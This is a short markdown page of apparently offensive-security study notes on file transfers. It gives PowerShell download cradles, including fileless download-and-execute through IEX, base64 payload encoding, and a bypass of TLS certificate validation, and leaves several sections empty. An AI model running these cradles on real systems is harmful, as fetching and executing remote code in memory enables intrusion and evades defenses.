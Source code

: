 # File Transfers
## References and Links
[Harmj0y Powershell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## Linux File Transfers
## Windows File Transfers
### PowerShell Base64 Encode/Decode
```powershell
#Base64 Encode
[Convert]::ToBase64String((Get-Content -path "File_to_Encode" -Encoding byte))
#Base64 Decode
[IO.File]::WriteAllBytes("Output_File", [Convert]::FromBase64String("Base64_Encoded_Payload"))
```
### PowerShell Web Downloads
1. Files vs. Fileless  
a. Files = Download and save the file  
b. Fileless = Download and execute without saving the file 
```powershell
# File Download Example
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

# Fileless Download Example
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
# We can also pipe the input directly into IEX
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
``` 
Powershell v3.0 and later can use Invoke-WebRequest(by default is aliased to ```iwr```,```curl```, and ```wget```)
```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output_File_Name>
```
**Common Errors with Powershell**  
Internet Explorer first-launch configuration not being completed will prevent downloads. To bypass, use ```-UseBasicParsing```
```Powershell
Invoke-WebRequest <Target file URL> -UseBasicParsing | IEX
```
SSL/TLS secure channel throws an error if the certificate is not trusted.  
Bypass:
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads

## Transferring with Code
## Misc File Transfer Methods
## Catching files over HTTP/S
